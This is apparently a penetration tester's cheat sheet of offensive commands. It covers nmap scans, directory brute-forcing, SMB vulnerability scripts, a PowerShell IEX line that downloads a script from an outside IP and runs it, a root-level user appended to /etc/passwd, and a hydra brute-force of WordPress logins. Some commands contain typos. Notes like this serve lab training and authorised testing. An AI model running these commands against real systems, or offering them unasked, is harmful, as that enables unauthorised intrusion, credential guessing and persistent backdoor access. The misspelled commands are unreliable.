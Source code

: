 # Nmap
sudo nmap -O -sS -p- "$target"
sudo nmap -sU -p- "$target"
sudo nmap -sC -sV "$target"
sudo nmap -O -sS -p- "$target" | tee synscan.txt && sudo nmap -sC -sV "$target" | tee scriptscan.txt && sudo nmap -sU -p- "$target" | tee udpscan.txt

# Sudo
sudo -l

# Web Enumeration (Dirb|gobuster)
dirb "http://$target" -r -z 10
gobuster dir -k --url "$target" --wordlist /usr/share/dirb/wordlists/common.txt

# SMB
sudo nbtscan -r "$target"
nmap -v -p 139,445 --script=smb-vuln-* "$target"

# Upgrading Shell (pty)
python -c 'import pty; pty.spawn("/bin/bash")'

# Powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
Also check out 16.2.3 for base64 executable transfer and execution

# Windows Priv Esc
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
net user [username]
ipconfig /all 
tasklist /SVC **all running proccesses**
route print **all routes**
netstat -ano  **all active tcp connections**
netsh advfirewall show currentprofile **current firewall settings**
chtasks /query /fo LIST /v **scheduled tasks**
wmic product get name, version, vendor **installed software**
wmic qfe get Caption, Description, HotFixID, InstalledOn **installed version**

# Linux Priv Esc
openssl password "$pasword" **generate password hash for $password**
echo "root2:$hash:0:0:root:/root:/bin/bash" >> /etc/passwd

# WordPress
hydra -l /usr/share/commix/src/txt/usernames.txt -p /usr/share/seclists/Passwords/cirt-default-passwords.txt "$target" -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
wpscan --url "http://$target" -e
